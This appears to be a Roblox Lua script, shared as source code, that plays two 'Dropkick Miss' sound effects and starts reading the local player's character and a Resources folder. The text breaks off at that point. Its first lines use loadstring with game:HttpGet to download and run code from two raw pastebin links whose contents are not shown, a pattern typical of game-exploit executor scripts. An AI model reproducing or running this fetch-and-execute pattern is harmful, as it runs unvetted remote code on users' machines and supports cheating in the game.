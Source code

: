 spawn(function()
    loadstring(game:HttpGet("https://pastebin.pl/view/raw/93703964"))()
end)

spawn(function()
    loadstring(game:HttpGet("https://pastebin.pl/view/raw/a9d0f7d7"))()
end)

-- Local Script

local soundId = 17429233290 -- Correct sound ID

-- Create a new Sound instance
local sound = Instance.new("Sound")
sound.Name = "Dropkick Miss"
sound.SoundId = "rbxassetid://" .. soundId
sound.Volume = 1
sound.Pitch = 1.0 -- Pitch set to 1.0
sound.PlaybackSpeed = 1.0 -- Adjusted playback speed

-- Parent the sound to Workspace
sound.Parent = workspace

-- Play the sound
sound:Play()

-- Local Script

local soundId2 = 17356346310 -- Correct sound ID

-- Create a new Sound instance
local sound2 = Instance.new("Sound")
sound2.Name = "Dropkick Miss Music"
sound2.SoundId = "rbxassetid://" .. soundId2
sound2.Volume = 0.8
sound2.Pitch = 1.0 -- Pitch set to 1.0
sound2.PlaybackSpeed = 1.0 -- Adjusted playback speed

-- Parent the sound to Workspace
sound2.Parent = workspace

-- Play the sound
sound2:Play()

Wait(1.79)

local Players = game:GetService("Players")
local ReplicatedStorage = game:GetService("ReplicatedStorage")
local Workspace = game:GetService("Workspace")

-- Wait for the player to load
local player = Players.LocalPlayer
local character = player.Character or player.CharacterAdded:Wait()
local rootPart = character:WaitForChild("HumanoidRootPart")

-- Check for Resources folder in ReplicatedStorage
local resourcesFolder = ReplicatedStorage:WaitForChild("Resources")
